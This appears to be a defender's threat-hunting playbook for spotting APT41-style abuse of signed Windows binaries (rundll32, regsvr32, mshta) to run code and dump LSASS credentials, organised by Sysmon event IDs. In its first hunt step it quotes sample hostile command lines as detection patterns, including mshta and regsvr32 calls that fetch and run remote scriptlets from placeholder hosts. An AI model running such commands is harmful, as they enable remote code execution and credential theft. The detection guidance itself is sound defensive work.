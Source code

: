 
> 🎯 **Objective**: Hunt for credential access and execution activity consistent with **APT41** using **Signed Binary Proxy Execution** (e.g., `rundll32`, `regsvr32`, `mshta`, etc.) to bypass detection and steal credentials via indirect means.

This hunt does **not rely on alerts** — instead, it investigates subtle execution chains abusing trusted Windows binaries.

---

## ✅ Hypothesis

> “An APT is using signed Microsoft binaries (LOLBINs) to proxy malicious code execution and dump credentials, bypassing direct malware detection.”

---

## 🧱 Tactics to Focus On

1. **Execution** — Trusted binaries loading untrusted content
2. **Credential Access** — LSASS dump, token theft
3. **Defense Evasion** — Use of signed binaries, obfuscation
4. **Persistence** — DLLs registered via regsvr32
5. **Lateral Movement** — Reuse of stolen credentials or tokens

---

## 🔍 Hunt Steps (True Threat Hunt Chain)

---

### **1. Hunt for Suspicious Use of LOLBINs**

**Why:**
APT41 is known for using signed Windows binaries to execute payloads indirectly, avoiding EDR triggers.

**Look For:**

* Sysmon Event ID 1:

  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `installutil.exe`
* Suspicious `CommandLine`, such as:

  * `rundll32.exe javascript:"..."`
  * `mshta.exe http://<external-IP>/payload.hta`
  * `regsvr32 /s /n /u /i:http://domain/payload.sct scrobj.dll`

**Thought Process:**

> Why is a Microsoft-signed binary reaching out to an external host or running a script?

---

### **2. Identify Loaded Modules or DLLs**

**Why:**
APT41 often uses custom DLLs for execution or persistence, loaded via LOLBINs.

**Look For:**

* Sysmon Event ID 7:

  * DLLs loaded from non-standard paths (e.g., `C:\ProgramData\`, `%TEMP%`, `%APPDATA%`)
* Rare DLL names or timestamps mismatching system boot

**Thought Process:**

> Was a non-standard or unsigned DLL loaded by a trusted binary?

---

### **3. Trace Credential Access Tactics**

**Why:**
APT41 has leveraged proxy execution to dump LSASS or steal tokens.

**Look For:**

* Sysmon Event ID 10:

  * `SourceImage`: `rundll32.exe`, `powershell.exe`, `dllhost.exe`
  * `TargetImage`: `lsass.exe`
  * `GrantedAccess`: `0x1fffff`, `0x1438`

**Thought Process:**

> Was LSASS accessed by a process that shouldn't be touching it?

---

### **4. File Creation Linked to Dumps or Recon**

**Why:**
Extracted credential dumps may be staged in `.dmp`, `.zip`, `.dat` files before exfiltration.

**Look For:**

* Sysmon Event ID 11:

  * Files written to `%TEMP%`, `%APPDATA%`, `C:\ProgramData`
  * Suspicious extensions or hidden files

**Thought Process:**

> Were credentials or memory dumps staged locally?

---

### **5. Network Indicators from LOLBIN Execution**

**Why:**
Payloads may be retrieved or exfiltrated via LOLBIN-based execution.

**Look For:**

* Sysmon Event ID 3:

  * Outbound traffic from `mshta.exe`, `rundll32.exe`, etc.
  * Odd ports, no reverse DNS, first-seen domains

**Correlate With:**

* Suricata/Zeek logs
* Domain reputation checks (VirusTotal, URLhaus)

**Thought Process:**

> Is a trusted binary being used as a C2 agent?

---

### **6. Persistence via Registry or WMI**

**Why:**
APT41 has used `regsvr32` to set up persistence via COM hijacking or malicious DLL registration.

**Look For:**

* Sysmon Event ID 13:

  * Registry keys under `HKCU\Software\Classes\CLSID` or `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`
* Unusual entries for scriptlets or DLLs

**Thought Process:**

> Did this signed binary quietly register persistence?
> Was WMI used to schedule or bind it?

---

### **7. Trace Use of Stolen Credentials**

**Why:**
After stealing credentials, APT41 moves laterally using RDP or PS Remoting.

**Look For:**

* Event ID 4624 with LogonType 3 or 10 (network/RDP)
* Event ID 4648 (explicit credential use)
* Anomalous account logons from new hosts

**Thought Process:**

> Was lateral movement done using new accounts shortly after dump?

---

## 🧠 Summary

This hunt assumes **no alerts** and requires:

* Knowledge of **LOLBIN abuse patterns**
* Close inspection of **process and module behavior**
* Tracing of **credential access** without obvious tools
* Correlation across **execution, registry, and network telemetry**